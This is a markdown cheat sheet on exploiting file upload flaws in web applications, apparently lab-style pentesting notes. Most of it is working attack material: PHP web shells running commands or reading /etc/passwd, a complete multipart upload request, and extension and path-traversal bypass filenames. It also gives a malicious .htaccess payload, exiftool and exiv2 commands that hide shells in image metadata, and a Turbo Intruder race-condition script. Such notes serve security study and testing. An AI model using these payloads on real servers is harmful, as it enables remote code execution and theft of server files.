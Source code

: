 # 🟩 File Upload

When a web server allows users to upload files to its filesystem without validating

<mark style="color:purple;">**"Content-Type" header:**</mark>

* simple text like name, address: "application/x-www-form-url-encoded"
* large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:purple;">**"Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. and it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1 
```

**Example**

```http
// Edit HTTP request with "BurpSuit Proxy"

POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"

TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:orange;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:orange;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:orange;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

**Example**\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

or

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp 
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:orange;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

* Change the value of the "**filename**" parameter to "**.htaccess**"
* Change the value of the "**Content-Type**" header to "**text/plain**"
* Replace payload with\
  `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
* Now web shell was successfully uploaded.

### <mark style="color:orange;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field

$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:orange;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

**Example**

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output
    
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:orange;">Exploiting file upload vulnerabilities without remote code execution</mark>

#### <mark style="color:green;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:green;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.


